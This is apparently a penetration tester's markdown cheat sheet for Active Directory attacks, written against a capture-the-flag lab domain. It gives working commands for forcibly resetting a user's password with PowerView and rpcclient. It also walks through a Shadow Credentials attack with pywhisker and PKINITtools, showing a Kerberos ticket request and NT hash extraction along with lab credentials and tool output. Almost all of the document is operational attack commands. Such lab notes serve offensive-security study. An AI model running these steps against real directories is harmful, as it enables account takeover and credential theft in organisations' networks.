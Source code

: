 ## Creating a PSCredential Object

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

## Changing the User's Password

```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity USER_TO_CHANGE_PASS -AccountPassword $PASS_OBJECT -Credential $Cred -Verbose
```

### From linux

#### rpc
```bash
rpcclient> setuserinfo UserName 23 password
                                ^
```

## Shadow Credentials
https://medium.com/@NightFox007/exploiting-and-detecting-shadow-credentials-and-msds-keycredentiallink-in-active-directory-9268a587d204

```bash
py ~/tools/pywhisker.py -u judith.mader -p judith09 -d certified.htb --dc-ip 10.10.11.41 -t management_svc -a add --filename mngmnt_svc --export PEM
```
After that 
```bash
py ~/tools/active_directory/PKINITtools/gettgtpkinit.py -cert-pem mngmnt_svc_cert.pem -key-pem mngmnt_svc_priv.pem certified.htb/management_svc management_svc.ccache

ngmnt_svc_priv.pem certified.htb/management_svc management_svc1.ccache
2024-11-06 22:49:05,947 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-06 22:49:05,965 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-06 22:49:29,976 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-06 22:49:29,977 minikerberos INFO     c34a6506882b9090ea6af6d5f294d37d8145575d3981913d24e16827fe1421d5
INFO:minikerberos:c34a6506882b9090ea6af6d5f294d37d8145575d3981913d24e16827fe1421d5
2024-11-06 22:49:29,984 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

You can now get the nthash from the ticket like
```bash
export KRB5CCNAME=management_svc1.ccache; py ~/tools/active_directory/PKINITtools/getnthash.py -key c34a6506882b9090ea6af6d5f294d37d8145575d3981913d24e16827fe1421d5 certified.htb/management_svc
```